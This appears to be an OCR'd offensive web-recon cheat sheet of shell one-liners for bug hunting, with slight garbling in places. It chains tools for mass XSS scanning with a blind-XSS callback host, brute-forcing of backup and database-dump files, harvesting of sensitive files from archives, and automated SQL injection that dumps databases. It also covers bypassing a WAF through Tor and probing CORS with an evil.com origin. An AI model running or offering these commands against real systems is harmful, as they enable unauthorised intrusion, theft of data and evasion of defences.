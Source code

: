 ```
```
```
cat urls.txt | grep "=" | sed 's/=.*/=/' | sed 's/URL: //' | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l ips_alive --full-url --recursive --exclude-sizes=0B --random-agent -e 7z,archive,ashx,asp,aspx,back,backup,backup-sql,backup.db,backup.sql,bak,bak.zip,bakup,bin,bkp,bson,bz2,core,csv,data,dataset,db,db-backup,db-dump,db.7z,db.bz2,db.gz,db.tar,db.tar.gz,db.zip,dbs.bz2,dll,dmp,dump,dump.7z,dump.db,dump.z,dump.zip,exported,gdb,gdb.dump,gz,gzip,ib,ibd,iso,jar,java,json,jsp,jspf,jspx,ldf,log,lz,lz4,lzh,mongo,neo4j,old,pg.dump,phtm,phtml,psql,rar,rb,rdb,rdb.bz2,rdb.gz,rdb.tar,rdb.tar.gz,rdb.zip,redis,save,sde,sdf,snap,sql,sql.7z,sql.bak,sql.bz2,sql.db,sql.dump,sql.gz,sql.lz,sql.rar,sql.tar.gz,sql.tar.z,sql.xz,sql.z,sql.zip,sqlite,sqlite.bz2,sqlite.gz,sqlite.tar,sqlite.tar.gz,sqlite.zip,sqlite3,sqlitedb,swp,tar,tar.bz2,tar.gz,tar.z,temp,tml,vbk,vhd,war,xhtml,xml,xz,z,zip,conf,config,bak,backup,swp,old,db,sql,asp,aspx~,asp~,py,py~,rb~,php,php~,bkp,cache,cgi,inc,js,json,jsp~,lock,wadl -o output.txt
```
```
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```
## ffuf json to txt output
```
cat output.json | jq | grep -o '"url": "http[^"]*"' | grep -o 'http[^"]*' | anew out.txt

```
**Search for Sensitive files from Wayback**
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
-------------------
## SQLi:
```
cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | dedupe | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level 5 --risk 3 --dbs &&
for i in $(cat tmp-sqli.txt); do ghauri -u "$i" --level 3 --dbs --current-db --batch --confirm; done
```
***Bypass WAF using TOR***
```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent --tamper=space2comment
```
***find which host is vuln in output folder of sqlmap/ghauri***
``root@bb:~/.local/share/sqlmap/output#``
```
find -type f -name "log" -exec sh -c 'grep -q "Parameter" "{}" && echo "{}: SQLi"' \;
```
----------------
## CORS:
```
echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
